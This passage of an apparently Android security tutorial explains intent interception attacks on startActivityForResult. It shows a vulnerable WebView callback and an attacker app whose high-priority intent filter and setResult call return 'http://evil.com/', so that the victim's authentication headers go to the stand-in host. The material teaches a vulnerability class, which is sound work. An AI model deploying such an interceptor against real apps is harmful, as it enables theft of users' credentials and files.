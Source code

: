 this is more advantageous, because it eliminates the need for user interaction and automatically specifies the attacker’s activity

Attacks on an activity’s return value
-------------------------------------

If an implicit intent is launched using `startActivityForResult(...)`, an intercepting app can use a call to `setResult(...)` to return particular data in the launching app’s `onActivityResult`. These calls come in two major kinds: when the app uses system actions (`android.intent.action.PICK` to choose a photo, `android.intent.action.GET_CONTENT` to choose files, `android.media.action.IMAGE_CAPTURE` to create a photo, etc.), which usually leads to the theft of arbitrary files or images; and actions created by app developers, with a result that depends on how the app is implemented.

Example

```
startActivityForResult(new Intent("com.victim.PICK_ARTICLE"), 1);


```

```
protected void onActivityResult(int requestCode, int resultCode, Intent data) {
    super.onActivityResult(requestCode, resultCode, data);
    if(requestCode == 1 && resultCode == -1) {
        webView.loadUrl(data.getStringExtra("picked_url"), getAuthHeaders());
    }
}


```

An attacker could attack this as follows

`AndroidManifest.xml` file

```
<activity android:>
    <intent-filter android:priority="999">
        <action android: />
        <category android: />
    </intent-filter>
</activity>


```

```
protected void onCreate(Bundle savedInstanceState) {
    super.onCreate(savedInstanceState);
    setResult(-1, new Intent().putExtra("picked_url", "http://evil.com/"));
    finish();
}


```
